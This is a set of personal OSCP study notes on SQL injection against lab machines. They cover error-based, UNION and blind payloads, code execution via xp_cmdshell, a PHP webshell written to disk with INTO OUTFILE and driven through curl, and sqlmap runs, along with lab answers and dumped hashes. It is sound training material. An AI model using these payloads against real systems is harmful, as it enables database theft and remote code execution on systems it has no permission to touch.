




# Module 10: SQL Injection Attacks

## Tags
#OSCP #Module10 #SQLInjection #MySQL #MSSQL #PostgreSQL #UnionSQLi #BlindSQLi #Sqlmap #XpCmdshell #ParenthesisClosingBypass #IncrementalUnion #HTBSupplementary

---

## **Why This Module Matters**
SQL injection is currently ranked third on OWASP's Top 10 (A03:2021-Injection), and it shows up constantly in real assessments. The core idea is simple: a web app builds a database query out of user input without sanitizing it, so you can reshape that query to pull data (or worse) you were never meant to see.

This module covers the theory and syntax differences between database engines, manual exploitation techniques (error-based, UNION-based, blind), and getting to full code execution both manually and with sqlmap.

**✅ Status:** Module complete. 10.1, 10.2, 10.3, 10.4, and all 4 Capstone Labs done.

---

## 10.1. SQL Theory and Databases

### 10.1.1. SQL Theory Refresher

**The basic flow:** frontend (HTML/CSS/JS) sends user input to a backend (PHP, Java, Python, whatever), and the backend builds a SQL query using that input to talk to the database.

**Example query:**
```sql
SELECT * FROM users WHERE user_name='leon'
```
`SELECT *` grabs every column. `FROM users` names the table. `WHERE user_name='leon'` filters to one row.

**How this shows up in real backend code (PHP example):**
```php
<?php
$uname = $_POST['uname'];
$passwd = $_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```
*Note: the `i` in `mysqli_query` stands for "improved," nothing to do with injection. The `i` in SQLi stands for injection. Easy to mix up at a glance.*

**The vulnerability, in one sentence:** `$uname` and `$passwd` go straight from user input into the query string with no validation. If you type `leon`, the query becomes `... WHERE user_name= leon`. If you type `leon '+!@#$` instead, the query becomes `... WHERE user_name= leon'+!@#$`, and nothing stops that from reaching the database as-is. That gap is the whole vulnerability.

#### Tags: #SQLTheory #SQLQueryBasics #PHPMySQLi

---

### 10.1.2. DB Types and Characteristics

Different database engines (MySQL, MSSQL, PostgreSQL, Oracle) have different syntax, functions, and quirks. This module focuses on **MySQL** and **MSSQL**, both common on-prem and in the cloud.

**MySQL (and MariaDB, its open-source fork):**

**Step 1: Connect to a remote MySQL instance**
```bash
mysql -u root -p'root' -h <target> -P 3306 --skip-ssl-verify-server-cert
```
*If you get `ERROR 2026 (HY000) TLS/SSL error`, add `--skip-ssl` instead.*
![[Pasted image 20260801235847.png]]
**Step 2: Check the version**
```sql
select version();
```

**Step 3: Check the current session's user**
```sql
select system_user();
```
*Returns something like `root@<your_ip>`, confirming you're connected as the database-level `root` user (not the OS-level root, a separate concept entirely).*

**Step 4: List all databases**
```sql
show databases;
```

**Step 5: Pull a specific user's password hash**
```sql
SELECT user, authentication_string FROM mysql.user WHERE user = 'offsec';
```
*MySQL stores this as a hash (e.g. Caching-SHA-256), not plaintext. Hash cracking is covered in a later module.*
![[Pasted image 20260802000127.png]]
**MSSQL, native to the Windows ecosystem:**

Windows has a built-in `sqlcmd` tool, but from Kali you'll usually use **Impacket**'s `impacket-mssqlclient`, which speaks the TDS protocol (Tabular Data Stream, the network protocol MSSQL uses to send and receive data) MSSQL uses.

**Step 1: Connect with Windows authentication (NTLM, not Kerberos)**
```bash
impacket-mssqlclient Administrator:Lab123@<target> -windows-auth
```
![[Pasted image 20260802001053.png]]
**Step 2: Check the SQL Server and underlying Windows version**
```sql
SELECT @@version;
```
*Returns both the MSSQL version and the Windows Server build in one shot.*

*Note: when using `sqlcmd` directly (not `impacket-mssqlclient`), statements need a trailing `GO` on their own line. Over `impacket-mssqlclient`'s remote TDS connection, `GO` isn't needed since it's not actually part of the TDS protocol, just a `sqlcmd`-client convention.*

**Step 3: List databases**
```sql
SELECT name FROM sys.databases;
```
*`master`, `tempdb`, `model`, `msdb` are defaults, present on every install. Anything else (e.g. `offsec`) is custom, and worth digging into first.*
![[Pasted image 20260802001330.png]]
**Step 4: List tables in a custom database**
```sql
SELECT * FROM offsec.information_schema.tables;
```

**Step 5: Dump a table's contents**
```sql
select * from offsec.dbo.users;
```
*Note the `dbo` schema name required between the database and table names for MSSQL, MySQL doesn't need this.*
![[Pasted image 20260802001858.png]]

> 📋 Generalized copy-pasteable commands for this technique: [[SQL Injection & Databases#MySQL|Command Appendix]] and [[SQL Injection & Databases#MSSQL (Impacket)|MSSQL section]]

#### Tags: #MySQLBasics #MSSQLBasics #ImpacketMSSQLClient #TDSProtocol #SysDatabases

---

### 10.1.3. MySQL Query Syntax Worth Knowing Cold

A few more MySQL CLI fundamentals worth having reflexive before writing injection payloads against them:

```sql
DESCRIBE departments;              -- column names + types for a table (or SHOW COLUMNS FROM departments;)
SELECT dept_no FROM departments WHERE dept_name = "Development";   -- targeted single-row lookup
```

**`LIKE` pattern matching**, `%` matches zero or more characters (SQL's `.*`), `_` matches exactly one:
```sql
SELECT last_name FROM employees WHERE first_name LIKE 'Bar%' AND hire_date = '1990-01-01';
-- LIKE '%son'    -> ends with "son"
-- LIKE '%admin%' -> contains "admin" anywhere
-- LIKE 'a_min'   -> 5 chars, starts 'a', 3rd char 'i', ends 'min'
```
> 🔍 **Worth remembering generally:** in a SQLi payload, `LIKE '%word%'` (wildcards both sides) checks *contains*, `LIKE 'word%'` only checks *starts with*. Using `=` where you actually need substring matching is a common self-inflicted dead end.

**`COUNT`, `OR`, `NOT LIKE`, and operator precedence:**
```sql
SELECT COUNT(*) FROM titles WHERE emp_no > 10000 OR title NOT LIKE '%engineer%';
```
`COUNT(*)` counts matches instead of returning rows, useful for narrowing down "roughly how much data is here" before committing to a full dump. `NOT` binds tighter than `AND`, which binds tighter than `OR`, so `WHERE A OR B AND NOT C` actually parses as `WHERE A OR (B AND (NOT C))`. Use explicit parentheses whenever the intended logic isn't obvious at a glance, in your own queries and when reading a target's.

#### Tags: #MySQLBasics #LIKE #COUNT #OperatorPrecedence #Module10

**Lab status: ✅ Completed:**

| Question | Answer |
|---|---|
| VM #1 (MySQL): which plugin value is used as the password authentication scheme for user `offsec`? | **caching_sha2_password** |
| VM #2 (MSSQL): value of the first user listed in `sysusers` inside the `master` database? | **public** (`SELECT * FROM master.sys.sysusers;`, `uid 0`) |
| VM #3 (MySQL): flag from the `users` table? | **OS{9c1e71972d608dc0a75a770dda1af097}** (in the `test` database's `users` table, `username` column, row `id 4`, alongside Mario-character decoy rows) |

#### Tags: #Lab #Quiz #Module10

---

## 10.2. Manual SQL Exploitation

Automated tools like sqlmap can find and exploit SQLi fast, but understanding the manual mechanics first means you can actually reason about why a payload works (or doesn't) when the automated tool needs a hint.


*The three sections below aren't separate vulnerabilities, they're three different ways to get data out once you've found the same underlying injection point, chosen based on how much the app is willing to show you.*

### 10.2.1. Identifying SQLi via Error-Based Payloads

**Authentication bypass, the classic first move:**
```
offsec' OR 1=1 -- //
```
*Closes the quote early, adds an always-true `OR 1=1`, then comments out the rest of the original query with `-- ` (two dashes and a space, minimum). The trailing `//` here isn't SQL syntax, it's just a visual marker the module uses so the comment is obvious at a glance and to add a small buffer against whitespace-stripping filters.*

This turns:
```sql
SELECT * FROM users WHERE user_name= 'offsec' AND password='wrong'
```
into effectively:
```sql
SELECT * FROM users WHERE user_name= 'offsec' OR 1=1 --' AND password='wrong'
```
*The `OR 1=1` makes the WHERE clause always true, and the password check gets commented out entirely.*

**Step 1: Confirm you can reach the app and it behaves normally**
Log in with a wrong password first (e.g. `offsec`/`jam`) and confirm you get an "Invalid Password" message.

![[Pasted image 20260802143007.png]]

**Step 2: Test for injection with a single quote**
Type a single `'` into the username field and submit.
*A SQL syntax error coming back (rather than the normal "invalid password" message) confirms your input is reaching the database unsanitized. This is called an **in-band** SQLi since the query's effect is visible directly in the app's own response, most production apps suppress these error messages, so don't expect this every time.*
![[Pasted image 20260802143114.png]]

**Step 3: Submit the auth bypass payload**
```
offsec' OR 1=1 -- //
```
in the username field. *"Authentication Successful" confirms it worked.*

>![[Pasted image 20260802143202.png]]

**Going further, error-based enumeration:** since we can trigger database errors that leak information, we can use that channel to extract data one piece at a time.

**Step 4: Confirm you can extract arbitrary values via an error message**
```
' or 1=1 in (select @@version) -- //
```
*The `IN` operator here is being abused: comparing a boolean (`1=1`) against what should be a single value (the version string) forces a type-mismatch error, and MySQL's error message itself often includes the offending value. Expect the MySQL version number to show up in the error text.*
![[Pasted image 20260802143305.png]]

**Step 5: Try to dump a whole table at once (expect this to fail)**
```
' OR 1=1 in (SELECT * FROM users) -- //
```
*Error: subqueries used this way can only return **one column**. This tells you to narrow down to a single column at a time.*
![[Pasted image 20260802143411.png]]

**Step 6: Extract one column at a time**
```
' or 1=1 in (SELECT password FROM users) -- //
```
*Returns password hashes, but with no way to tell which hash belongs to which user.*
![[Pasted image 20260802143514.png]]

**Step 7: Narrow to a specific user**
```
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```
*Now you get exactly the `admin` user's password hash, one clean value at a time. Slow, but works when nothing else does.*
![[Pasted image 20260802143551.png]]

**Worked result (VM #1):** MySQL version leaked was `8.0.28`. Full password hash dump: `21232f297a57a5a743894a0e4a801fc3`, `f9664ea1803311b35f81d07d8c9e072d`, `5f4dcc3b5aa765d61d8327deb882cf99`, `5653c6b1f51852a6351ec69c8452abc6`. Isolated `admin`'s hash: `21232f297a57a5a743894a0e4a801fc3` (recognizable as the well-known MD5 of the plain word "admin").

> **Lab answer, VM #1:** the PHP variable storing the username field's input is **`$uid`**, not the generic `$uname` used in the module's illustrative code snippet. This VM's actual login form uses input field `name="uid"` (confirmed via `curl` + viewing the page source), so the matching backend variable follows that name instead. Worth remembering: a module's generic example code won't always match a specific lab VM's actual field/variable names exactly, check the live page source when in doubt rather than assuming the textbook snippet is verbatim.

**When the auth query wraps your input in parentheses**, `offsec' OR 1=1 -- //` alone leaves a dangling unclosed `)` and just errors out instead of bypassing anything. If the backend looks like `WHERE (id='INPUT') AND ...`, close the bracket before commenting:
```
' OR ID=5)-- -
```
turning the query into `WHERE ('' OR ID=5)-- - ') AND ...`, comment swallows the rest, `ID=5` selects a specific row.

> 🔍 **Worth remembering generally:** if a single quote clearly triggers a SQL error (confirming injection) but the standard `'; -- -` auth bypass still fails, suspect parentheses wrapping the input. Try `)-- -` and `')-- -` variants in Burp Repeater and compare response sizes to find which one clears the error.

**Comment syntax across the three variants worth knowing:** `-- ` (double-dash, MySQL requires the trailing whitespace), `#` (hash, MySQL-only, not MSSQL/PostgreSQL), `/*...*/` (C-style, also valid in MySQL).

#### Tags: #ErrorBasedSQLi #AuthBypass #SQLCommentSyntax #InSubqueryTrick #ParenthesisClosingBypass #Module10

---

### 10.2.2. UNION-Based Payloads

Whenever the app reflects query results back to you (in-band), `UNION` is usually the fastest exploitation path. `UNION` lets you bolt a second `SELECT` onto the original query and get both results back together.

**Two conditions for UNION SQLi to work:**
1. The injected `UNION SELECT` must have the **same number of columns** as the original query.
2. The **data types** need to be compatible column-by-column.

**Step 1: Find the exact column count**
```
' ORDER BY 1-- //
```
Increment the number each time. When you hit a number the table doesn't have, `ORDER BY` errors out, telling you the previous number was the actual column count.


*Keep incrementing until it breaks. The last number that worked is the real column count, needed before any UNION payload will work at all.*
![[Pasted image 20260802144642.png]]

> 🎥 **Video:** ippsec's ["SQL Injecting Beyond Strict Filters - Union Without Comma"](https://www.youtube.com/watch?v=61kf4CEnOZk), confirmed via multiple independent sources as a real, on-topic video (same UNION-based technique, extended to a filter-bypass edge case where commas are blacklisted). A step beyond the basic technique shown here, worth watching once the core UNION mechanic above makes sense, content depth beyond the title not personally verified.

**Step 2: Confirm which columns are visible in the output**
```
%' UNION SELECT 'a1', 'a2', 'a3', 'a4', 'a5' -- //
```
*(Adjust the number of values to match your confirmed column count.) Whichever placeholder values actually show up in the rendered page tell you which columns the app actually displays.*
![[Pasted image 20260802144722.png]]

**Step 3: Enumerate the database, watching for type mismatches**
```
%' UNION SELECT database(), user(), @@version, null, null -- //
```
*If the first visible column is normally an integer ID, putting a string function there can silently fail to display (not necessarily error) since the app's own formatting expects a number. Fix: shift your enumeration functions to columns that actually render as text.*
```
' UNION SELECT null, null, database(), user(), @@version -- //
```
![[Pasted image 20260802144811.png]]

**Step 4: Enumerate other tables via `information_schema`**
```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
*This is the generic, database-agnostic way to discover table/column names you don't already know about, works the same way regardless of what the app's own schema looks like.*
![[Pasted image 20260802144900.png]]

**Step 5: Dump a discovered table**
```
' UNION SELECT null, username, password, description, null FROM users -- //
```
![[Pasted image 20260802144940.png]]

**Worked result (VM #1, `/search.php`):** 5 columns total, column 1 is the integer ID (doesn't render string values). Current DB: `offsec`, user `root@172.30.0.3`, version `8.0.28`. Found tables `customers` and `users` via `information_schema`. Full `users` dump:

| username | password | description |
|---|---|---|
| admin | 21232f297a57a5a743894a0e4a801fc3 | this is the admin |
| offsec | f9664ea1803311b35f81d07d8c9e072d | try harder |
| boba | 5f4dcc3b5aa765d61d8327deb882cf99 | freeze |
| han | 5653c6b1f51852a6351ec69c8452abc6 | pew pew |

*Matches the hashes already pulled via error-based extraction earlier, good cross-check that both techniques found the same data.*

> **Lab answer, VM #1:** besides matching data types, a UNION SQLi payload must also use a **matching number of columns** as the original query. (The concept is "same column count", but the lab's answer-checker specifically wanted the phrase "matching number of columns", the near-identical "same number of columns" got rejected, worth remembering these checkers can be picky about exact wording even when the concept is right.)

**Alternative column-count method: incremental UNION**, instead of `ORDER BY N`, just keep adding columns to a `UNION SELECT` until it stops erroring:
```
' UNION SELECT 1-- -           -- error
' UNION SELECT 1,2-- -         -- error
' UNION SELECT 1,2,3-- -       -- error
' UNION SELECT 1,2,3,4-- -     -- success, 4 columns confirmed
```
Both methods find the same number, `ORDER BY` errors when N exceeds the real column count (sorting by a column that doesn't exist), incremental UNION errors on a column-count mismatch directly. Use `ORDER BY` when there's no length concern and you just want the count fast; use incremental UNION when `ORDER BY` itself is filtered/blocked, or when you'd rather combine discovery and the first data-extraction attempt in fewer round trips.

**Cross-database table access**, once you know a table name but not which database it lives in:
```sql
' UNION SELECT 1,TABLE_SCHEMA,TABLE_NAME,COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'-- -
-- then, using the db.table notation directly:
' UNION SELECT 1,username,password,4 FROM ilfreight.users-- -
```
`db.table` addressing works from any UNION injection regardless of which database the vulnerable query itself is currently using, useful when `information_schema` reveals a promising table sitting in a *different* database than the one you're injected into.

#### Tags: #UnionSQLi #ColumnCountEnumeration #InformationSchema #TypeMismatch #IncrementalUnion #CrossDatabase #Module10

---

### 10.2.3. Blind SQL Injections

Sometimes the app never reflects the query's actual data back to you at all, no error text, no visible output difference. That's **blind** SQLi, and you infer results indirectly instead.

- **Boolean-based blind:** the app's response *changes shape* (not its literal content) depending on whether your injected condition is TRUE or FALSE, e.g. a valid-user page vs. an error page.
- **Time-based blind:** you make the database *pause* for a set number of seconds if a condition is true, and time the response to infer the answer.

**Boolean-based test:**
```
http://<target>/blindsqli.php?user=offsec' AND 1=1 -- //
```
*Since `1=1` is always true, this should behave identically to a plain valid request, confirming the injection point without needing any visible error.*
![[Pasted image 20260802145836.png]]

**FALSE-case test, for contrast:**
```
http://<target>/blindsqli.php?user=offsec' AND 1=2 -- //
```
*Since `1=2` is always false, expect the record fields to come back empty, the actual behavioral difference that makes this "boolean-based."*
![[Pasted image 20260802150220.png]]

**Time-based test:**
```
http://<target>/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```
*If the app hangs for ~3 seconds, that confirms both the injection point and that `offsec` is a real user, all without seeing a single byte of database output.*
![[Pasted image 20260802150257.png]]

**Worked result (VM #1, logged in as `offsec`/`lab`, then `blindsqli.php?user=offsec`):**
- Baseline: `Username: offsec`, `Password Hash: f9664ea1803311b35f81d07d8c9e072d`, `Description: try harder`.
- `AND 1=1` (TRUE): identical to baseline, full record returned.
- `AND 1=2` (FALSE): all three fields empty, confirming the behavioral difference boolean-based blind SQLi relies on.
- Time-based `sleep(3)` payload: page took ~3 seconds to load, confirming the injection point purely through timing, with the fields themselves coming back empty in this case (the delay itself was the useful signal, not the rendered content).

🔁 **Similar to:** this "no visible output, but a *change in behavior* still tells you something" idea is the exact same principle from [[09. Common Web Application Attacks#9.4.1. OS Command Injection|9.4.1's capstone]] (a response going blank instead of echoing input was itself a signal). Blind SQLi just formalizes that idea into two named categories (boolean, time) instead of ad-hoc observation.

**Practical note:** always test both a known-valid value and a deliberately-wrong one side by side, so you have a baseline to compare against. Manually walking a full blind SQLi to extract real data is slow, hence sqlmap exists (next section).

> 🔗 **HackTricks** SQL Injection overview: [github.com/HackTricks-wiki/hacktricks](https://github.com/HackTricks-wiki/hacktricks/blob/master/src/pentesting-web/sql-injection/README.md) *(linking to the book's own GitHub source, not the live site, book.hacktricks.wiki currently sits behind a bot-paywall gateway that blocks automated/tool-based access)* · **PayloadsAllTheThings** SQL Injection overview: [github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md)

> 📋 Generalized copy-pasteable commands for this technique: [[SQL Injection & Databases#SQL Injection Payloads|Command Appendix]]
> 🧭 Quick lookup: [[SQL Injection & Databases (Decision Tree)|Decision Tree]]

#### Tags: #BlindSQLi #BooleanBasedBlind #TimeBasedBlind #SleepPayload

**Lab status: ✅ Completed:**

| Question                                                                                 | Answer                                                                                                                         |
| ---------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------ |
| Which PHP variable stores the user's input in the auth-bypass example?                   | **`$uid`** (this VM's actual form field is `name="uid"`, not the module's generic `$uname` example)                            |
| UNION-based attack: what condition, besides matching data types, must also be satisfied? | **Matching number of columns** (exact accepted phrasing, "same number of columns" was rejected despite being the same concept) |
| Blind SQLi: since DB output is never returned, what's used instead to infer results?     | **The web application's own output/behavior** (its response content or timing), not the database directly                      |

#### Tags: #Lab #Quiz #Module10

---

## 10.3. Manual and Automated Code Execution

### 10.3.1. Manual Code Execution

Depending on the DBMS (Database Management System, meaning which database software is running, MySQL, MSSQL, PostgreSQL, etc), getting from SQLi to actual OS command execution looks different.

**MSSQL: `xp_cmdshell`**

`xp_cmdshell` runs a string as an OS command and returns the output as rows. It's disabled by default and needs enabling first.

**Step 1: Enable advanced options**
```sql
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
```

**Step 2: Enable `xp_cmdshell`**
```sql
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

**Step 3: Run a command**
```sql
EXECUTE xp_cmdshell 'whoami';
```
*Note `EXECUTE`, not `SELECT`, once a feature like this is enabled.*
![[Pasted image 20260802232804.png]]

**Worked result (VM #1):** both `show advanced options` and `xp_cmdshell` reported "changed from 1 to 1" (already enabled on this box), then `EXECUTE xp_cmdshell 'whoami';` returned `nt service\mssql$sqlexpress`, confirming code execution.

> **Lab answer, VM #1:** the config option that must be enabled before `xp_cmdshell` is **`show advanced options`**.

From here, escalate to a proper reverse shell the same way as any other Windows RCE (see [[09. Common Web Application Attacks#9.3.1. Using Executable Files|9.3.1]] for the PowerShell base64 pattern, or [[09. Common Web Application Attacks#9.4.1. OS Command Injection|9.4.1]] for Powercat).

**MySQL: `SELECT ... INTO OUTFILE`**

MySQL has no single "run a shell command" function, but if the OS user running MySQL has write access to a web-servable directory, you can write a webshell to disk directly via a UNION payload.

**Step 1: Write a PHP webshell via UNION + INTO OUTFILE**
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
*Expect a type-mismatch error in the app's own response, that's fine and doesn't stop the file write from succeeding underneath. Requires the target directory to actually be writable by the DB process's OS user.*

**Step 2: Confirm and use the webshell**
```bash
curl "http://<target>/tmp/webshell.php?cmd=id"
```
*Same `cmd`-parameter webshell pattern as [[09. Common Web Application Attacks#9.2.3. Remote File Inclusion (RFI)|9.2.3]]'s `simple-backdoor.php` and [[09. Common Web Application Attacks#9.3.1. Using Executable Files|9.3.1]]'s uploaded shells, just delivered via SQLi's file-write primitive instead of an upload form or RFI.*

> **🛠️ Note (VM #2):** `INTO OUTFILE` refused to write to `webshell.php` with `File already exists`, MySQL never overwrites an existing file at the target path, and this VM already had one sitting there (a pre-planted decoy, or leftover from someone else's run). Just pick a different filename (e.g. `shell2.php`) and it works fine.

**Worked result (VM #2):** confirmed `id` returned `uid=33(www-data)`, then found and read the flag directly in the same `tmp` folder:
```bash
curl "http://192.168.245.19/tmp/shell2.php?cmd=ls+/var/www/html/tmp/"
curl "http://192.168.245.19/tmp/shell2.php?cmd=cat+/var/www/html/tmp/flag.txt"
```

> **Lab answer, VM #2 (manual):** **`OS{70f90225e57520ca75e9de855b196896}`**

**Confirm write access is actually possible before assuming it isn't**, three checks in order: `super_priv` (`... FROM mysql.user`, `Y` means full superuser), the `FILE` privilege specifically (`information_schema.user_privileges`), and `secure_file_priv` (`information_schema.global_variables`, empty means unrestricted, a path means restricted to it, `NULL` means file I/O is disabled entirely). All three are queryable through the exact same UNION injection used to read data.

**A shorter webshell variant worth knowing**, when URL-encoding `system()` gets awkward:
```php
<?=`$_GET[0]`?>
```
`<?=` is PHP's short-echo tag (`<?php echo`), backticks execute their contents as a shell command and return the output, so visiting `shell.php?0=id` runs `id`. Same `INTO OUTFILE` delivery as above, just a shorter payload to smuggle through a length-constrained injection point.

> 🔧 **Technique:** if `INTO OUTFILE` throws `File already exists`, MySQL never overwrites, just target a different filename (`shell2.php`), a decoy or previous attempt may already be sitting at your first choice.

#### Tags: #XpCmdshell #IntoOutfile #MySQLWebshell #SpConfigure #SuperPriv #ShortWebshell #Module10

---

### 10.3.2. Automating the Attack

**sqlmap** automates discovery, fingerprinting, and exploitation of SQLi across most DBMS engines.

**Step 0: Read the target page's HTML to figure out how to talk to it**

Before you can point sqlmap at anything, you need two things off the actual page: does it submit via `GET` or `POST`, and what's the input field actually called. Both live in the `<form>` tag:

```html
<form method="POST" autocomplete="off">
  <input type="text" id="item" name="item">
  <input type="submit" value="SEARCH"/>
</form>
```

- `method="POST"`, the browser sends your search as hidden POST body data, not as part of the URL. (If this said `GET` instead, or was missing entirely, you'd see the parameter appear directly in the address bar after submitting, e.g. `?item=test`, and sqlmap would just take a `-u "...?item=test"` URL with no `--data` needed.)
- `name="item"` on the `<input>`, this is the actual parameter name the backend code reads, regardless of what the field is labeled on-screen ("Lookup:"). This is the value that matters for sqlmap's `-p` flag, not the visible label text.

*General skill, not just this VM: whenever you hit a form and aren't sure how to attack it, `curl` the page and grep for `<form` and `<input` tags. The `method` attribute tells you GET vs POST, and each `name="..."` tells you the real parameter name to target. Same lookup you did for the login form's `$uid` field back in [[10. SQL Injection Attacks#10.2.1. Identifying SQLi via Error-Based Payloads|10.2.1]].*

**Step 1: Basic discovery scan**
```bash
sqlmap -u "http://<target>/blindsqli.php?user=1" -p user
```
*`-u` is the target URL, `-p` names the parameter to test. Confirms the injection type (e.g. time-based blind), the DBMS, the web server OS, and the app's tech stack, all from one scan.*

> **Caution:** sqlmap is loud, high traffic volume, easy to notice on a monitored network. Not a first choice when stealth matters.

**Worked example (MySQL VM #2, `192.168.245.19/search.php`, POST field `item`):**
```bash
sqlmap -u "http://192.168.245.19/search.php" --data="item=test" -p item --batch
```
- `-u`, the page URL sqlmap sends the request to.
- `--data="item=test"`, since this form is `POST` (found via Step 0 above), this tells sqlmap to send a POST request with body `item=test`, mimicking what the form itself sends when you hit SEARCH. (For a GET form you'd skip `--data` and just put the parameter straight in the `-u` URL instead, like the generic `blindsqli.php?user=1` example below.)
- `-p item`, tells sqlmap specifically to test the `item` field for injection. Without this it tries every parameter/header it can find, which is slower and noisier.
- `--batch`, auto-answers sqlmap's yes/no prompts with sensible defaults so it doesn't stop and wait on interactive input.
![[Pasted image 20260802233122.png]]

**Worked result (VM #2 discovery):** sqlmap found the `item` parameter injectable via all four major techniques at once: boolean-based blind, error-based (EXTRACTVALUE), UNION-based (5 columns, same count as the manual UNION work in 10.2.2), and **time-based blind** (`item=test' OR SLEEP(5)-- cwYP`). Backend confirmed as MySQL >= 5.1 on Linux Ubuntu 22.04 / PHP / Apache 2.4.52. Since a page usually only needs one working technique found to move on, having all four here just means the app has zero input sanitization at all on this field, sqlmap doesn't need to guess which one to use for extraction.

**Step 2: Dump the current database**
```bash
sqlmap -u "http://<target>/blindsqli.php?user=1" -p user --dump
```
*Against a time-based blind injection this can be genuinely slow (each byte extracted means more timing probes), just let it run.*

**Worked example (VM #2, forcing time-based blind and targeting one specific table):**
```bash
sqlmap -u "http://192.168.245.19/search.php" --data="item=test" -p item --batch --technique=T -T users --dump
```
![[Pasted image 20260803222923.png]]
- `--technique=T`, restricts sqlmap to only the **T**ime-based blind method (sqlmap's technique letters: B=boolean, E=error, U=union, S=stacked, T=time, Q=inline). Without this, sqlmap defaults to whichever technique it found is fastest, here that would've been UNION-based, not the time-based blind the lab specifically wants practiced.
- `-T users`, dump only the `users` table, instead of every table in the current database.
- `--dump`, extract and print the table's rows once the injection point is confirmed.

*Since no `-D <database>` was given, sqlmap fell back to whatever database the app's own query is already using (fetched automatically and printed as `offsec`), same current-database concept as MySQL's `database()` function used manually in [[10. SQL Injection Attacks#10.2.2. UNION-Based Payloads|10.2.2]].*

**Worked result (VM #2, sqlmap time-based dump):** took roughly 75 minutes end-to-end (each character of every field costs its own batch of `SLEEP()` timing probes, this is the real-world cost of blind techniques vs. in-band ones like UNION). Dumped all 4 rows of `offsec.users`:

| id | username | password (cracked) | description |
|---|---|---|---|
